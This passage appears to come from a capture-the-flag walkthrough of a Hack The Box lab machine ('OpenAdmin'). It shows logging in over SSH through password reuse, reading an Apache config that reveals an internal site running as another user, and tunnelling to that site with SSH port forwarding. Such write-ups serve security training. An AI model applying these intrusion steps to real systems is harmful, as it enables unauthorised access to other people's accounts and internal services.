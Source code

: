 ```sh
    'context_color' => '#D3DBFF',
  ),
);

?>
```


Testing password reuse with users on the box, successfully logged in as `jimmy` via ssh

```sh
❯ ssh jimmy@10.129.100.13
Command executed at: 2025-03-22 14:56:40
The authenticity of host '10.129.100.13 (10.129.100.13)' can't be established.
ED25519 key fingerprint is SHA256:wrS/uECrHJqacx68XwnuvI9W+bbKl+rKdSh799gacqo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.13' (ED25519) to the list of known hosts.
jimmy@10.129.100.13's password: 

jimmy@openadmin:~$ whoami
jimmy 
```


The site config file mentions an internal website that is running under the user "joanna"
```sh
jimmy@openadmin:/tmp$ cat /etc/apache2/sites-available/internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Seems to be running on localhost port 52846.

Using port forwarding, we can view the site in our browser.
```sh
❯ ssh -L 8081:127.0.0.1:52846 jimmy@10.129.100.13
Command executed at: 2025-03-22 15:17:11
```


![[internal_login.png]]

index.php shows that it's expecting Jimmy's credentials
